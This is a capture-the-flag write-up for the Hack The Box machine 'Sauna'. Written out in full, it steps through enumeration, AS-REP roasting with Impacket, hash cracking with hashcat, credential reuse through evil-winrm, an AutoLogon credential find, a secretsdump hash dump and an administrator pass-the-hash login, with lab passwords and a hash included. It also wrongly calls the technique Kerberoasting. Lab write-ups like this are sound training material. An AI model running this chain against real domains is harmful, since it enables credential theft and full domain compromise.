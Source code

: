 ```yaml
---
description: https://app.hackthebox.com/machines/229
---
```


# 🌋 Sauna

<figure><img src="../../../.gitbook/assets/image (509).png" alt=""><figcaption></figcaption></figure>

First, we do a Nmap to reveal the Domain's name:

<figure><img src="../../../.gitbook/assets/image (510).png" alt=""><figcaption></figcaption></figure>

then we go for a gobuster looking for HTML pages:

```
gobuster dir -u http://10.129.207.238 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html
```

and find an about page with names of employees:

<figure><img src="../../../.gitbook/assets/image (511).png" alt=""><figcaption></figcaption></figure>

Let's try enumerating with some common enterprise naming methodology like fsmith or sdriver:

```
GetNPUsers.py egotistical-bank.local/fsmith -no-pass
```

* **`GetNPUsers.py`:** This is the name of the Python script from the Impacket toolkit that is being executed. It is used for extracting TGT hashes.
* **`egotistical-bank.local/fsmith`:** This parameter specifies the target user account for which the TGT hash is to be extracted. In this case, the user account is "fsmith" in the domain "egotistical-bank.local."
* **`-no-pass`:** This parameter indicates that no password will be provided during the request. Kerberoasting attacks involve requesting TGTs for service accounts without providing their passwords. The attack relies on weak encryption used for service tickets.

Lucky guess because it was the only one that was working:

<figure><img src="../../../.gitbook/assets/image (512).png" alt=""><figcaption></figcaption></figure>

after looking for the hash mode number (18200) we can launch our hashcat command:

```
hashcat -m 18200 -a 0 fsmithhash.txt /usr/share/wordlists/rockyou.txt 
```

<figure><img src="../../../.gitbook/assets/image (513).png" alt=""><figcaption></figcaption></figure>

So we got ourselves valid credentials:

connect with evil-winrm:

don't forget to put sauna.htb in /etc/hosts

```
evil-winrm -i sauna.htb -u fsmith -p 'Thestrokes23'
```

<figure><img src="../../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

Now we need to enumerate, so download winPEAS on your local machine and to upload it to your shell just do:

```
upload winPEASx64.exe
```

<figure><img src="../../../.gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

while going through the winPEAS output, we encounter some interesting stuff:

```
Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Moneymakestheworldgoround!
```

<figure><img src="../../../.gitbook/assets/image (77).png" alt=""><figcaption><p>Free Credentials </p></figcaption></figure>

so now time to dump:

```
secretsdump.py egotistical-bank.local/svc_loanmgr:'Moneymakestheworldgoround!'@sauna.htb
```

<figure><img src="../../../.gitbook/assets/image (78).png" alt=""><figcaption></figcaption></figure>

Bingo, we get admin hash

so now it's a free ride to get an admin shell:

```
evil-winrm -i 10.129.95.180 -u administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```

<figure><img src="../../../.gitbook/assets/image (79).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (80).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (81).png" alt=""><figcaption></figcaption></figure>

:tada:

